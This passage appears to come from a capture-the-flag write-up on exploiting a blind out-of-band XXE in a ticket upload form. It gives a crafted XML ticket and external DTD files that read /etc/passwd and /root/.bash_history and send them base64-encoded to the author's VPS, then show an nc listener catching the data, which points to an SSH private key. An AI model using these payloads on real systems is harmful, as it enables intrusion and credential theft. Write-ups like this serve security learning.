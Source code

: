 * XML file
* Upload form
* Same output

It looks to be a blind XXE, or XXE OOB (Out of band): https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/

### XXE OOB

I will not use `ngrok` trick, because I got my VPS now. Before starting, __ironforge__ is my VPS and __miniverse__ is my laptop.

I craft a new ticket:

```bash
miniverse $ cat ticket.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE number [ <!ENTITY % pe SYSTEM "http://51.75.29.170:12345/bite.dtd"> %pe; %param1; ]>
<ticket>
    <number>&external;</number>
    <status>valid</status>
    <date>20/12/2018</date>
    <type>premium</date>
</ticket>
```

The IP address is my VPS (where https://ctf.maki.bzh is hosted). This XML code, will grab the dtd file on my VPS, then:

```bash
ironforge $ cat bite.dtd
<!ENTITY % stuff SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://51.75.29.170:12346/a.php?data=%stuff;'>">
```

The first XML will grab `bite.dtd` file, which send the content of `/etc/passwd` (base64 encoded) on the port __12346__ of my VPS:


![](/lib/images/writeups/2018_santhacklaus/archdrive/archdrive4_3.gif)


It works!

### File extraction

In the `/etc/passwd` file, only one user got `/bin/bash` shell: __root__, what does it contain?

```bash
ironforge $ cat bite.dtd
<!ENTITY % stuff SYSTEM "php://filter/convert.base64-encode/resource=/root/.bash_history">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://51.75.29.170:12346/a.php?data=%stuff;'>">

ironforge $ nc -lvp 12346
Listening on [0.0.0.0] (family 0, port 12346)
Connection from 113.ip-51-75-202.eu 49966 received!
GET /a.php?data=bHMgLWxhIC9ob21lL2RhcmtfbG90dGVyeS8uc3NoL2lkX3JzYSAKY2F0IC9ob21lL2RhcmtfbG90dGVyeS8uc3NoL2lkX3JzYSAK HTTP/1.0
Host: 51.75.29.170:12346
Connection: close

ironforge $ echo -n 'bHMgLWxhIC9ob21lL2RhcmtfbG90dGVyeS8uc3NoL2lkX3JzYSAKY2F0IC9ob21lL2RhcmtfbG90dGVyeS8uc3NoL2lkX3JzYSAK' | base64 -d
ls -la /home/dark_lottery/.ssh/id_rsa 
cat /home/dark_lottery/.ssh/id_rsa
```
